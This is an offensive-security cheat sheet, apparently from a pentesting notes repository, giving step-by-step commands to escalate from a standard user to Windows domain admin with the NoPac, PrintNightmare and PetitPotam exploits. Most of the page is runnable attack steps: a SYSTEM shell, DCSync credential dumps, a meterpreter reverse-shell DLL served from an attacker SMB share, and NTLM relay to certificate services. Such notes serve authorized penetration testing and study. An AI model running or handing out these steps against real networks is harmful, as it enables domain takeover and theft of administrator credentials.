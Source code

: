 # Privilege Escalation to Domain Admin using Known Exploits

## **NoPac**

* NoPac is an intra-domain privilege escalation exploit that allows escalating privileges from any standard user to domain admin level access
* This exploit path takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller.
* The flow of the attack is outlined here: [SecureWorks Blog](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)

**Exploiting NoPac:**

1. Get the NoPac exploit: `git clone https://github.com/Ridter/noPac.git`
2. Check if target is vulnerable: `sudo python3 scanner.py domain.name/validuser:validpassword -dc-ip 172.16.5.5 -use-ldap`
3. Get a SYSTEM shell as the built-in administrator: `sudo python3 noPac.py DOMAIN.NAME/validuser:validpassword -dc-ip 172.16.5.5 -dc-host DC-NAME -shell --impersonate administrator -use-ldap`
4. Perform DCSync against the built-in administrator: `sudo python3 noPac.py DOMAIN.NAME/validuser:validpassword -dc-ip 172.16.5.5 -dc-host DC-NAME --impersonate administrator -use-ldap -dump -just-dc-user DOMAIN.NAME/administrator`

***

## **PrintNightmare**

* Vulnerability found in the Print Spooler service that runs on all Windows operating systems that allows for privilege escalation and remote code execution.

**Exploiting PrintNightmare:**

1. Get the exploit: `git clone https://github.com/cube0x0/CVE-2021-1675.git`
2.  Install cube0x0's version of impacket:

    ```
    pip3 uninstall impacket
    git clone https://github.com/cube0x0/impacket
    cd impacket
    python3 ./setup.py install
    ```
3. Check if the Windows target has MS-PAR & MSRPRN exposed:\
   `rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'`
4. Generate a DLL payload to be used by the exploit to gain a shell session:\
   `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=local-ip LPORT=anyport -f dll > backupscript.dll`
5. Create an SMB server and host a shared folder (Data) at the location of the DLL payload that the exploit will attempt to download:\
   `sudo smbserver.py -smb2support Data /path/to/backupscript.dll`
6. Run the exploit:\
   `sudo python3 CVE-2021-1675.py domain.name/validusername:validpassword@DC-IP '\\attacker-ip\CompData\backupscript.dll'`

***

## **PetitPotam**

* PetitPotam is an LSA spoofing vulnerability that allows forcing the domain controller to authenticate against another host using NTLM over port 445
* This attack allows an unauthenticated user to take over the domain
* More information about PetitPotam can be found here: [DirkJanm Post](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

**Exploiting PetitPotam:**

1. Start an NTLM relay: `sudo ntlmrelayx.py -debug -smb2support --target http://DOMAIN/URL/to/Certificate/Authoirty/host --adcs --template DomainController` Note: you can use [certi](https://github.com/zer1t0/certi) to find the location of the CA
2. Get Petit Potam: `git clone https://github.com/topotam/PetitPotam.git`
3. Run Petit Potam. \`python3 PetitPotam.py attacker-ip dc-ip
4. If it worked, you will find the base64 encoded certificate for the domain controller on the NTLM relay shell
5. Request a TGT for the domain controller using the certificate: `python3 /PKINITtools/gettgtpkinit.py DOMAIN.NAME/DC-NAME\$ -pfx-base64 <base64 certificate> = dc01.ccache`
6. Set the KRB5CCNAME environment variable to the previous output file: `export KRB5CCNAME=dc01.ccache`
7. Perform DCSync using (`-k`) the previous ccache file : `secretsdump.py -just-dc-user DOMAIN.NAME/administrator -k -no-pass DC-NAME.DOMAIN.NAME`
